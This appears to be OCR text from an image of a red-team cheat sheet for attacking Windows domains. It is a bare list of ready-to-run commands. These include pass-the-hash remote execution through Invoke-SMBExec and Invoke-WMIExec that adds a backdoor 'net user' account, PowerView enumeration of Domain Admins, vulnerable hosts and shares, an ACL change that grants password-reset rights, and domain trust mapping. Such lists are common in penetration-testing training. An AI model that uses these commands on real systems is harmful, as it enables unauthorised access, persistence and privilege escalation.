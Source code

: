 Invoke-SMBLogin -Target 192.168.100.20 -Domain TESTDOMAIN -Username TEST -Hash/-Password

Invoke-SMBExec -Target 192.168.100.20 -Domain TESTDOMAIN -Username TEST -Hash/-Pass -Command "net user SMBExec Winter2017 /add"

Invoke-WMIExec -Target 192.168.100.20 -Domain TESTDOMAIN -Username TEST -Hash/-Pass -Command "net user SMBExec Winter2017 /add"

Net View | Net Users | Net localgroup administrators | Net Accounts /dom

Whoami /groups | Whoami /priv

# Active Directory Enumeration:

Invoke-ACLScanner

Get-ObjectACL -ResolveGUIDs -SamAccountName john

Add-ObjectACL -TargetSamAccountName arobbins -PrincipalSamAccountName harmj0y -Rights ResetPassword

Get-Netuser -admincount | select samaccountname

Get-Netgroup -admincount | select samaccountname

Get-NetGroupMember "Domain Admins" -recurse|select membername

Get-NetComputer | Select-String -pattern "Citrix"

Get-NetComputer -filter operatingsystem=*7*|select name

Get-NetComputer -filter operatingsystem=*2008*|select name

Get-DomainComputer -LDAPFilter "(|(operatingsystem=*7*)(operatingsystem=*2008*))" -SPN "wsman*" -Properties dnshostname,serviceprincipalname,operatingsystem,distinguishedname | fl

Get-NetGroup | Select-String -pattern "Internet"

Get-NetUser -Filter | Select-Object samaccountname,userprincipalname

Get-NetUser -Filter samaccountname=test

Get-NetUser -Filter userprinciplename=test@test.com

Get-NetGroup | select samaccountname

Get-NetGroup "*BEN*" | select samaccountname

Get-NetGroupMember "Domain Admins" -recurse|select membername

Get-NetShare Hostname

Invoke-ShareFinder -Verbose -CheckShareAccess

New-PSDrive -Name "P" -PSProvider "FileSystem" -Root "\\bloredc1\netlogon"

# Domain Trusts:

Get-NetDomain | Get-NetDomainController | Get-NetForestDomain

Invoke-MapDomainTrust
